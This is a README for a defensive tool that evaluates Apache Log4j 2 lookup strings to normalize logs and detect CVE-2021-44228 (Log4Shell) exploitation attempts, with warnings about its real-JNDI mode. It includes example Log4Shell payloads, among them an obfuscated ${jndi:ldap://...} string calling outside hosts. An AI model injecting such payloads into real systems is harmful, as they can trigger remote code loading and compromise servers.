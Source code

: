 # JndiLookup
Some tool to help analyzing Apache Log4j 2 CVE-2021-44228

This tool uses the "lookup" feature from log4j-2 to test against the JNDI vulnerability.
The objective is to easily run the lookup feature (to normalize logs for example or to do a real testing on some payload - please be cautious).

To build : "make" (for convenience, the JndiLookup.jar file is included in this git).

Once built, you can run the tool with "java -jar JndiLookup.jar" (the log4j directory with log4j binaries must be in the same path as the JndiLookup.jar)

With no argument, the JndiLookup tool read lines from stdin and "convert" them using the log4j lookup feature - this should be useful to normalize logs and search for exploitation attempts
For example : cat access.log | java -jar JndiLookup.jar

If you pass a string to the command line, the tool will convert this string and exists (please escape all the '$' characters).
For example : java -jar JndiLookup.jar java -jar JndiLookup.jar "\${jndi:\${lower:l}\${lower:d}a\${lower:p}://world443.log4j.bin\${upper:a}ryedge.io:80/callback}"

By default, the JNDI lookup is disabled (and replaced by a lookup function that will just add "jndi:" but it's possible to enable the real JNDI lookup by passing the "-X" parameter to JndiLookup ("-X" to be passed as the first parameter) ; PLEASE BE CAUTIOUS with this because it could lead to your system being compromised.
For example : java -jar JndiLookup.jar -X "\${jndi:ldap://w8pcb14reujq65vic39pz9amv.canarytokens.com/a}"

The following lookup are enabled in the log4j binariers used (2.15.0 for standard usage, 2.14.1 for JNDI-enabled usage) :
- log4j
- sys
- env
- main
- marker
- java
- base64
- lower
- upper
- date 
- ctx
Other lookup might be availabled depending on your environment :
- docker
- kubernetes
- spring
- jvmrunargs
[ Please see https://github.com/apache/logging-log4j2/blob/c30a1398a6697fb832c650870c44284d0052103e/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java for details on lookup plugin activation]

Please be aware this tool uses the real code from log4j lookup feature and it could be vulnerable because of other (non-JNDI) security issues.
